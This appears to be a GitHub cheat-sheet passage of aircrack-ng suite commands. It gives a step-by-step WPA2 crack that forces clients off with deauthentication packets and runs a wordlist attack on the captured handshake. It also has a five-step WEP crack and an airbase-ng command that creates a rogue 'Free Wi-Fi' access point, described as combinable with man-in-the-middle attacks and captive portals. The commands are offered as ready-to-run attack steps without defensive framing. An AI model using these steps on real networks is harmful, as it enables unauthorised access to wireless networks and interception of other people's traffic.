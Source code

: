 
## 🧪 Example Scenario – WPA2 Crack

### 1. Start monitor:

```bash
airmon-ng start wlan0
```

### 2. Find target:

```bash
airodump-ng wlan0mon
```

### 3. Focus:

```bash
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w test wlan0mon
```

### 4. Force disconnect:

```bash
aireplay-ng --deauth 10 -a 00:14:6C:7E:40:80 wlan0mon
```

### 5. Crack key:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt test-01.cap
```

---

## 🧪 Example – WEP Crack in 5 Steps

```bash
airmon-ng start wlan0
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep wlan0mon
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF wlan0mon
aircrack-ng wep-01.cap
```

---

## 🧰 Advanced: Airbase-ng for Rogue AP

```bash
airbase-ng -e "Free Wi-Fi" -c 11 wlan0mon
```

* Creates a fake AP named “Free Wi-Fi”
* Can be combined with **MITM** and **captive portals**

---